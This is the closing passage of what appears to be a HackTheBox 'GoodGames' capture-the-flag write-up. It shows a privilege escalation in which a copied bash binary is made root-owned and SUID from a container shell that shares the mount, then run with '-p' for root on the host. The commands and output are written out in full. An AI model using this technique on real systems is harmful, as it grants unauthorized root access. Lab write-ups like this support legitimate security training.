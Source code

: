 ```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls
bash  user.txt


root@3a453ab39d3d:/home/augustus chown root:root /home/augustus/bash  
root@3a453ab39d3d:/home/augustus chmod +s /home/augustus/bash


augustus@GoodGames:~$ ./bash -p
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) egid=0(root) groups=0(root),1000(augustus)
bash-5.1# whoami
root
```

![](/assets/images/HTB/Goodgames-HackTheBox/flags.webp)

![](/assets/images/HTB/Goodgames-HackTheBox/pwned.webp)

